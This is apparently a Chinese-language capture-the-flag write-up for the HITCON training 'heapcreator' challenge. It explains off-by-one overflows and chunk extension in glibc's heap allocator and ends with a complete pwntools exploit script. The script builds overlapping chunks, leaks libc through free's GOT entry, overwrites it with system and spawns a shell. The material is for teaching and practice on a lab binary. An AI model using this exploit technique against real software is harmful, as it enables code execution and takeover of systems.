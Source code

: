 ```yaml
---
title: lab13_heapcreator
date: 2019-07-20
categories:
- hitcon_trainning
tags: heap  off_by_one  chunk_extend
---
```


**<font style="font-size:25px">Off By One & chunk_extend</font>**

# Off By One

## 概念
单字节缓冲区溢出：
- 循环次数设置错误
- 字符串操作不合适
    `strlen`不考虑`\x00`来计算长度，但是`strcpy` 会把`\x00`一起复制
    ```C
    if(strlen(buffer) == 24){
        strcpy(arr,buffer);
    }
    ```
    如果`arr`的大小是24，但是实际上会拷贝25个数据。   

又叫栅栏错误。
>  是差一错误的一种。   

## 应用
应用广泛（大概），这道题里用的他更改下一个chunk的size域，达到overlap的效果。

# chunk_extend

## 如何获得各个chunk位置

在`ptmalloc`中，chunk_header是定位前后chunk的重要依据。  

- 获取下一chunk
    当前指针加上`header`中`size`的大小。
- 获取前一chunk
    当前指针减去`header`中`pre_size`的大小。


## 判断是否在使用
- 判断前一chunk是否在使用当中
    `size`中的`pre_inuse`标志。
- 判断当前chunk是否在使用当中
    查看下一个chunk的`pre_inuse`标志。
- 判断下一chunk是否在使用当中
    查看下下一个chunk的`pre_inuse`标志。

## 原理

通过更改chunk_header的数据，可以让一个chunk中包含另一个chunk，从而实现跨越chunk的操作——overlapping。  

# trick

- 当需要malloc的长度（size）没有和`0x8`对齐时（64位），实际分配到的chunk大小将会是`size & (~0xf) `。少的内存由相邻下一个chunk的`pre_size`补上。

# 思路

## 流程
是一个常见的分配堆，释放堆的题目。
- 分配  
    首先`malloc(0x10)`创建一个结构体，里面存储`size`和指向`content`的指针。此后的操作都是在这个结构体里面获得数据。  

    然后用户指定大小分配内存存储`content`。

- 释放   

    会把结构体和`content`的内存释放，并将结构体的指针置空。

- 提供编辑和打印功能

## 漏洞

在删除函数中人为地创造了一个`off_by_one`的漏洞。    

## 利用  

1. 分配两个`content`，`content_0`大小见trick，`content_1`大小需要和结构体大小相同【原因见后】，程序会分配4个chunk。其中两个是结构体。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_XR5zJ.png)   
    注意这里`struct_1`和`content_1`的大小和地址。

2. 编辑`content_0`，使`struct_1`的`size`大小为`struct_1` 和 `content_1`的大小之和。    
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_8PVlN.png)   
    在更改了`struct_1`的`size`之后，gdb解析的heap中就没有`content_1`了
    
3. delete(1)   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_dCeyN.png)   
    `fastbin`中的原有`struct_1`被放进了`0x40`的`bin`中。

4. 分配`0x30`大小的content    
    系统会先在`fastbin`找有没有`0x20`和`0x40`大小的chunk来作为`struct`和`content`，于是原有`struct_1`&`content_1`就被分配给了新的`struct`和`content`。
    > `content_1`大小要和`struct`相同的原因

    但是这两个实际大小都是`0x20`。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720213636_tZMYT.png)   

    当向`content_2`写入数据，就可以覆盖到`struct_2`。    
    【题目中编号仍为1，此处只为容易分辨】  

    构造chunk如图。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720213636_Cz4Lm.thumb.700_0.png)  

5. 打印`content_2`   
    前面说到所有有关`content`的操作都是根据`struct`中存的数据来的。   
    打印是打印`struct`中存的地址指向的位置。在此处改为`free_got`计算后即可得到`libc`基址。  

6. 编辑`content_2`   
    其实已经成为改`got`表的操作了。    
    将`free`的`got`表改为`system`的地址。   
    调用`free`的时候，参数是`struct`的存的地址，也就是`*(struct->addr)`。   
    所以我们可以在一开始构造`content_0`的时候，就把内容改成`/bin/sh\x00`,当delete(0)的时候就是`system("/bin/sh");`。   

# exp
```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def delete(index):
    sh.sendlineafter(':','4')
    sh.sendlineafter(':',str(index))

def create(sz,content):
    sh.sendlineafter(':','1')
    sh.sendlineafter(': ',str(sz))
    sh.sendafter(':',content)

def show(index):
    sh.sendlineafter(':','3')
    sh.sendlineafter(':',str(index))

    ret = u64(sh.recvuntil('\x7f')[-6:] + '\x00\x00')
    return ret

def edit(index,content):
    sh.sendlineafter(':','2')
    sh.sendlineafter(':',str(index))
    sh.sendlineafter(': ',content)

if __name__ == '__main__':
    
    sh = process('./heapcreator')
    elf =  ELF('./heapcreator')
    libc = elf.libc
    free_got = elf.got['free']
    free_libc  = libc.symbols['free']
    system_libc = libc.symbols['system']

    create(0x18,'A' * 8)
    create(0x10,'B' * 8)

    payload = '/bin/sh\x00' + cyclic(0x10) + '\x41'
    edit(0,payload)

    delete(1)

    gdb.attach(sh)
    payload = cyclic(0x10) + p64(0) + p64(0x21) + p64(0x30) + p64(free_got)
    create(0x30,payload)

    free_addr = show(1)
    system_addr = free_addr - free_libc + system_libc
    log.info('==================>free addr:{:#x}<=============='.format(free_addr))
    log.info('==================>sysytem addr:{:#x}<=============='.format(system_addr))

    edit(1,p64(system_addr))
    delete(0)
    

    sh.interactive()
    sh.close()
```

## atoi 

这里也可以改`atoi`，在`choice:`的时候限制4个字节，输入`sh\x00`就可以了。

# 一个问题

- 为什么在glibc2.27里面跑的时候，fastbin里面是空的。但是getshell是可以的？